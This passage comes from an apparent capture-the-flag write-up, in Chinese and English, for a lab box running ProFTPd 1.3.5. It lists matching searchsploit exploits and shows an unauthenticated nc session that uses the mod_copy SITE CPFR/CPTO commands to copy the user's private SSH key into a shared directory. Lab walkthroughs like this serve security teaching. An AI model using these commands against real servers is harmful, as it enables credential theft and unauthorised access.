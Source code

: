 ```shell
| rwxr-xr-x   0    0    4096  2019-09-04T10:37:44  cache
| rwxrwxrwx   0    0    4096  2019-09-04T08:43:56  crash
| rwxrwsr-x   0    50   4096  2016-04-12T20:14:23  local
| rwxrwxrwx   0    0    9     2019-09-04T08:41:33  lock
| rwxrwxr-x   0    108  4096  2019-09-04T10:37:44  log
| rwxr-xr-x   0    0    4096  2019-01-29T23:27:41  snap
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  www
|_

Nmap done: 1 IP address (1 host up) scanned in 8.97 seconds
```

## Gain initial access with ProFtpd

### What is the version?

前面服务扫描的时候已经获得，1.3.5

### How many exploits are there for the ProFTPd running?

使用searchsploit搜索一下相关的exp数量：

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ searchsploit ProFtpd |grep 1.3.5
ProFTPd 1.3.5 - File Copy                                                                                                                | linux/remote/36742.txt
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                                                | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                                                                                  | linux/remote/49908.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                                      | linux/remote/36803.py
```

### What is Kenobi's user flag (/home/kenobi/user.txt)?

The mod_copy module implements **SITE CPFR** and **SITE CPTO** commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. 

利用SITE CPFR 和 SITE CPTO实现文件copy，copy位置是挂载的/var路径：

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ nc 10.10.46.200 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.46.200]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
